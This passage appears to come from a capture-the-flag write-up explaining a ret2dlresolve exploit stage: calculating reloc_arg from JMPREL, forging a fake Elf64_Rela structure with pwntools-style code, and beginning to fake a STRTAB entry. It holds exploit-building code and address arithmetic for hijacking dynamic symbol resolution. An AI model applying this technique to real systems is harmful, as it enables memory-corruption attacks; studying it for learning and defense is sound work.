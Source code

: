 First, we will need the address for Elf64_Rela struct to make `reloc_arg` is an integer with the following calculation:

```
    <Address of Elf64_Rela> = <JMPREL> + <reloc_arg> * 24
<=> <reloc_arg> = ( <Address of Elf64_Rela> - <JMPREL> ) / 24
```

After a while trying various address, the address of Elf64_Rela will be `rw_section + 0x40` and we have the following stuffs:

```
JMPREL = 0x400300
Elf64_Rela_addr  = rw_section + 0x40                      = 0x403e40
reloc_arg        = int(( Elf64_Rela_addr - JMPREL) / 24)  = 632
```

Now we will create the structure for Elf64_Rela which is defined as follows:

```
typedef struct elf64_rela {
    Elf64_Addr r_offset;      /* Location at which to apply the action (8 bytes) */
    Elf64_Xword r_info;       /* index and type of relocation (8 bytes) */
    Elf64_Sxword r_addend;    /* Constant addend used to compute value (8 bytes) */
} Elf64_Rela;
```

We will fake r_offset and r_info while r_addend is the same with .rela.plt of read, which is null byte:

![read_JMPREL_GDB.png](images/read_JMPREL_GDB.png)

So our struct for Elf64_Rela will be as following:

```
r_offset = p64(0xdeadbeef)         # Unknown, temporary
r_info = p64((symbol_number << 32) | 0x7)
# r_addend is null and stack is null already so we don't need to write this, 
# also because we run out of 0x10 bytes we can write
Elf64_Rela_struct = r_offset + r_info
```

We know that r_offset is the place which contains the resolved libc address so we will chose the address for that later. Now we will move to the last thing we need to fake: STRTAB.

### Stage 4. Fake address and structure of STRTAB ([Table of content](#table-of-content))

As 2 part above does at the begining, we will choose the address for STRTAB first. This address also have to satisfy this calculation:

```
    <Address for STRTAB> = <STRTAB> + <st_name>
<=> <st_name> = <Address for STRTAB> - <STRTAB>
```
